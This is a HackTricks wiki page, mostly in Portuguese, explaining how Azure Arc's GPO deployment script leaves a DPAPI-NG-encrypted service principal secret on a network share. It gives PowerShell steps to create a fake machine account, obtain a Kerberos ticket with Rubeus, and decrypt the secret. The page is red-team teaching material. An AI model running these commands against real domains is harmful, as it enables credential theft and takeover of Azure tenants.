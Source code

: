 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc permite a integração de novos servidores internos (servidores de domínio unidos) no Azure Arc usando o método de Objeto de Política de Grupo. Para facilitar isso, a Microsoft fornece um kit de ferramentas de implantação necessário para iniciar o procedimento de integração. Dentro do arquivo ArcEnableServerGroupPolicy.zip, os seguintes scripts podem ser encontrados: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando executado, o script DeployGPO.ps1 realiza as seguintes ações:

1. Cria o GPO de Integração de Servidores Azure Arc dentro do domínio local.
2. Copia o script de integração EnableAzureArc.ps1 para o compartilhamento de rede designado criado para o processo de integração, que também contém o pacote de instalação do Windows.

Ao executar este script, os administradores de sistema precisam fornecer dois parâmetros principais: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Além disso, requer outros parâmetros, como o domínio, o FQDN do servidor que hospeda o compartilhamento e o nome do compartilhamento. Detalhes adicionais, como o ID do locatário, grupo de recursos e outras informações necessárias também devem ser fornecidos ao script.

Um segredo criptografado é gerado no diretório AzureArcDeploy no compartilhamento especificado usando a criptografia DPAPI-NG. O segredo criptografado é armazenado em um arquivo chamado encryptedServicePrincipalSecret. Evidências disso podem ser encontradas no script DeployGPO.ps1, onde a criptografia é realizada chamando ProtectBase64 com $descriptor e $ServicePrincipalSecret como entradas. O descriptor consiste nos SIDs do grupo de Computadores de Domínio e Controladores de Domínio, garantindo que o ServicePrincipalSecret só possa ser descriptografado pelos Controladores de Domínio e grupos de segurança de Computadores de Domínio, conforme observado nos comentários do script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Temos as seguintes condições:

1. Conseguimos penetrar com sucesso na rede interna.
2. Temos a capacidade de criar ou assumir o controle de uma conta de computador dentro do Active Directory.
3. Descobrimos um compartilhamento de rede contendo o diretório AzureArcDeploy.

Existem vários métodos para obter uma conta de máquina dentro de um ambiente AD. Um dos mais comuns é explorar a cota de conta de máquina. Outro método envolve comprometer uma conta de máquina através de ACLs vulneráveis ou várias outras configurações incorretas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Uma vez que uma conta de máquina é obtida, é possível autenticar usando essa conta. Podemos usar o comando runas.exe com a flag netonly ou usar pass-the-ticket com Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Ao ter o TGT para nossa conta de computador armazenado na memória, podemos usar o seguinte script para descriptografar o segredo do principal de serviço.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Neste ponto, podemos reunir as informações restantes necessárias para conectar ao Azure a partir do arquivo ArcInfo.json, que está armazenado na mesma unidade de rede que o arquivo encryptedServicePrincipalSecret. Este arquivo contém detalhes como: TenantId, servicePrincipalClientId, ResourceGroup e mais. Com essas informações, podemos usar o Azure CLI para autenticar como o service principal comprometido.

## Referências

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
